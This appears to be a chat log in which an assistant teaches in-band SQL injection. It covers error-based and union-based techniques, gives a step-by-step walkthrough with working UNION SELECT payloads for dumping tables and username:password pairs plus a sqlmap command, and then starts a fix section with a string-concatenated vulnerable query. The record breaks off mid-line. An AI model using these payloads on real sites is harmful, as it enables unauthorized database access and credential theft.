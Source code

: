 

# In-Band SQL Injection (SQLi)

In-Band SQL Injection is one of the most common and straightforward types of SQL injection attacks where the attacker uses the same communication channel to both launch the attack and gather results.

## Types of In-Band SQLi:

1. **Error-Based SQLi**:
   - Relies on error messages returned by the database server
   - Attacker intentionally causes errors to extract information
   - Example: `' OR 1=CONVERT(int, (SELECT table_name FROM information_schema.tables))--`

2. **Union-Based SQLi**:
   - Uses the UNION SQL operator to combine results from multiple SELECT statements
   - Requires knowledge of the database structure
   - Example: `' UNION SELECT username, password FROM users--`

## Characteristics:
- Results are returned directly in the application's response
- Easier to exploit than other types (blind SQLi)
- Often used for data extraction

## Prevention:
- Use parameterized queries/prepared statements
- Implement proper error handling (don't show DB errors to users)
- Apply principle of least privilege for DB accounts
- Use web application firewalls (WAFs)

Explain Error Based and Union Based a bit more

 # In-Band SQL Injection: Error-Based and Union-Based

## Error-Based SQL Injection

Error-based SQL injection is a technique where attackers deliberately cause the database to generate error messages that reveal information about the database structure or contents.

**How it works:**
1. The attacker submits malicious input that causes a SQL error
2. The application displays the error message (either directly or in logs)
3. The error contains sensitive information about:
   - Database structure (table names, column names)
   - Database type/version
   - Query syntax that can be exploited further

**Example:**
```sql
' AND 1=CONVERT(int, (SELECT table_name FROM information_schema.tables))--
```
This might return an error like:
```
Conversion failed when converting the nvarchar value 'users' to data type int.
```
Revealing that there's a table called "users".

**Characteristics:**
- Relies on verbose error reporting
- Works even when no data is returned to the user
- Often used for reconnaissance before other attacks

## Union-Based SQL Injection

Union-based SQL injection leverages the UNION SQL operator to combine results from the original query with results from an injected query.

**How it works:**
1. The attacker determines the number of columns in the original query
2. They craft a UNION SELECT statement with matching columns
3. The database combines and returns results from both queries

**Example:**
```sql
' UNION SELECT username, password FROM users--
```

**Key requirements:**
1. Both queries must return the same number of columns
2. Corresponding columns must have compatible data types

**Process for exploitation:**
1. Find vulnerable parameter (through testing with `'` or `"`)
2. Determine number of columns (using ORDER BY or UNION SELECT NULL,...)
3. Identify which columns are displayed in output
4. Craft UNION SELECT to extract desired data

**Example step-by-step:**

1. Test for vulnerability:
   ```sql
   product.php?id=1'
   ```

2. Find number of columns:
   ```sql
   product.php?id=1 ORDER BY 5-- 
   ```
   Increase number until you get an error (error at 5 means 4 columns)

3. Confirm with UNION:
   ```sql
   product.php?id=-1 UNION SELECT NULL,NULL,NULL,NULL--
   ```

4. Identify displayed columns by replacing NULLs one by one:
  continue from step-by step

 # Continuing Step-by-Step Guide for In-Band SQL Injection (01-In-Band-SQLi)

## Step 4: Identifying Vulnerable Parameters
1. **Test all input fields**: Try basic SQL injection payloads in:
   - URL parameters (e.g., `?id=1`)
   - Form fields (login/search)
   - HTTP headers (User-Agent, Referer)

2. **Common vulnerable patterns**:
   ```sql
   ' OR 1=1 --
   " OR 1=1 --
   1' ORDER BY 1--
   1' UNION SELECT null--
   ```

## Step 5: Determining Database Structure
1. **Find number of columns**:
   ```sql
   ' ORDER BY 5-- 
   ```
   Increase number until error occurs to find column count

2. **Identify useful columns**:
   ```sql
   ' UNION SELECT 1,2,3,4,5--
   ```
   Note which numbers appear in output

## Step 6: Extracting Data
1. **Get database version** (replace visible column number):
   ```sql
   ' UNION SELECT 1,@@version,3,4,5--
   ```

2. **List tables**:
   ```sql
   ' UNION SELECT 1,table_name,3,4,5 FROM information_schema.tables--
   ```

3. **Extract column names from interesting tables**:
   ```sql
   ' UNION SELECT 1,column_name,3,4,5 FROM information_schema.columns WHERE table_name='users'--
   ```

## Step 7: Retrieving Sensitive Data
```sql
' UNION SELECT 1,username||':'||password,3,4,5 FROM users--
```

## Step 8: Automated Tools (Optional)
Consider using sqlmap for more efficient exploitation:
```bash
sqlmap -u "http://example.com/page?id=1" --dbs --batch
```

Would you like me to elaborate on any particular step or provide more specific examples for a certain database type?

Fix after the step-by-step implementation

 # Fixing In-Band SQL Injection (01-In-Band-SQLi)

## Implementation Steps

1. **Identify vulnerable parameters**:
   - Locate all user input fields that interact with database queries
   - Common targets: login forms, search fields, URL parameters

2. **Implement parameterized queries**:
   ```python
   # Vulnerable
   query = "SELECT * FROM users WHERE username = '" + username + "' AND password = '" + password + "'"
   
   # Fixed with parameterized query
   cursor.execute("SELECT * FROM users WHERE username =